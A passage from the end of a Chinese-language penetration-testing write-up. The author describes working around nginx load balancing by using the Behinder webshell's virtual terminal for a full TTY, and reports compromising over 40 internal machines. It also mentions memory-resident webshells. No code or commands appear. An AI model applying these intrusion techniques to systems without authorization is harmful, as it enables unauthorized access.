  
可以看到连接是成功了的，但是半双工模式，这里就是因为nginx做了负载均衡，我们的请求会分发到2个内网机子，导致我们的正向代理发送不了完整的请求，也就有了图片中的连接关闭。这里我们是选择不做代理，直接使用冰蝎的虚拟终端获取完整tty继续渗透。

# 七、结

最终是拿下了40多台内网机子，算得上是一次比较曲折的不出网内网渗透了，希望上述提到的gadgets以及内存马可以给师傅们一些思路QWQ  
如果觉得还不错的话可以点个赞QAQ
